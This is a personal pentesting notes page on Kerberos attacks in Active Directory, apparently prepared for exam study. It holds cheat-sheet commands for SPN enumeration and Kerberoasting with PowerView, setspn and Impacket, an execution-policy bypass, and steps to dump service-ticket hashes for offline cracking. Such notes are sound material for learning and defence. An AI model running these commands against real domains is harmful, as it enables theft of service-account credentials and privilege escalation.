

repository: amandaguglieri/hackinglife · page: kerberos-attacks/index.html · generator: mkdocs

---
title: Kerberoasting
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
---
# 🔐 Kerberos attacks
 

[See about Kerberos authentication](kerberos-authentication.md).

Kerberoasting is a lateral movement/privilege escalation technique in Active Directory environments.

Kerberoasting tools typically request RC4 encryption when performing the attack and initiating TGS-REQ requests. This is because RC4 is weaker and easier to crack offline using tools such as Hashcat than other encryption algorithms such as AES-128 and AES-256. Overall:

- RC4 (type 23) encryption: TGS  hashes that begin with `$krb5tgs$23$*`
- AES-256 (type 18) encryption: TGS  hashes that begin with `$krb5tgs$18$*`

```
Kerberos Attacks
│
├── SPN Enumeration
├── Kerberoasting
├── AS-REP Roasting
├── Ticket Extraction
├── Pass-the-Ticket
├── Overpass-the-Hash
├── Delegation Abuse
│   ├── Unconstrained
│   ├── Constrained
│   └── Resource-Based
├── Ticket Forgery
│   ├── Golden Ticket
│   └── Silver Ticket
└── Kerberos Persistence
```

Typical flow:

```
Client → DC : AS-REQ
DC → Client : AS-REP (TGT)

Client → DC : TGS-REQ
DC → Client : TGS-REP (Service ticket)

Client → Service : AP-REQ
Service → Client : AP-REP
```

## SPN Enumeration

```
########################################
# Enumerate SPNs (Kerberoast targets)
########################################

# PowerView
Import-Module .\PowerView.ps1
Get-DomainUser -SPN
Get-NetUser -SPN
Get-DomainUser -SPN | select serviceprincipalname

# Example. I find Get-NetUse much better thant the Get-DomainUser one
Get-NetUser -SPN | select samaccountname,serviceprincipalname


# Native Windows
setspn -Q */*

# Example
setspn -Q MSSQLSvc/*


# Impacket
impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD>

# Example
impacket-GetUserSPNs corp.com/pete:MattLovesAutumn1
Get-DomainSPNTicket -SPN http/files04.corp.com
Get-DomainSPNTicket -SPN HTTP/MS01.oscp.exam
```



## Kerberoasting TGS-rep

Kerberoasting is an Active Directory attack technique where any authenticated domain user can request a service ticket (TGS) for accounts that have Service Principal Names (SPNs). The ticket is encrypted using the service account's password hash. The attacker can extract this encrypted blob and brute-force it offline to recover the password.


### PowerView

Download PowerView from the PowerSploit repository:  
[https://github.com/ZeroDayLab/PowerSploit](https://github.com/ZeroDayLab/PowerSploit)

```powershell
cd c:\
powershell -ep bypass
Import-Module .\Powerview.ps1 -Verbose
```

```
########################################  
# Request service ticket (Kerberoasting)  
########################################

# PowerView  
Invoke-Kerberoast  
  
# Hashcat format  
Invoke-Kerberoast -OutputFormat Hashcat  
  
# Example  
Invoke-Kerberoast -OutputFormat Hashcat | Out-File hashes.txt  
  
  
# Request ticket for single SPN  
Get-DomainSPNTicket -SPN <SPN>  
  
# Example  
Get-DomainSPNTicket -SPN MSSQLSvc/sql01.corp.local

# Or Extract only the hash:
(Get-DomainSPNTicket -SPN HTTP/web04.corp.com).Hash
(Get-DomainSPNTicket -SPN HTTP/web04.corp.com).Hash > hash.txt
(Get-DomainSPNTicket -SPN http/files04.corp.com).Hash | Out-File hash.txt
Get-DomainSPNTicket -SPN http/files04.corp.com | Select -ExpandProperty Hash

# Alternative: Request Ticket for a Single Account
Request-SPNTicket
# And then you are prompted to enter SPN

```
